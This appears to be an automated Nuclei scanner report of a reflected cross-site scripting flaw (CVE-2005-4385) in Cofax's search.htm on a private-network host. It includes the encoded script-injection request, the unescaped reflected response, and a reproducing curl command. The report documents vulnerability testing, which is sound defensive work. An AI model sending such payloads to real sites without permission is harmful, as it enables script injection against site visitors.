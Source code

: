 ### Cofax <= 2.0RC3 XSS (CVE-2005-4385) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2005-4385**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/search.htm?searchstring2=&searchstring=%27%3E%22%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:23 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Cofax <= 2.0RC3 XSS |
| Authors | geeknik |
| Tags | cofax, xss, cve, cve2005 |
| Severity | medium |
| Description | Cross-site scripting vulnerability in search.htm in Cofax 2.0 RC3 and earlier allows remote attackers to inject arbitrary web script or HTML via the searchstring parameter. |
| CVE-ID | [CVE-2005-4385](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2005-4385) |
| CVSS-Score | 0.00 |

**Request**
```http
GET /search.htm?searchstring2=&searchstring=%27%3E%22%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1944.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 232
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/search.htm?searchstring2=&searchstring='>"</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- http://pridels0.blogspot.com/2005/12/cofax-xss-vuln.html
- https://nvd.nist.gov/vuln/detail/cve-2005-4385
- http://www.securityfocus.com/bid/15940
- http://www.osvdb.org/21850

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1944.0 Safari/537.36' 'http://192.168.198.179:8080/search.htm?searchstring2=&searchstring=%27%3E%22%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)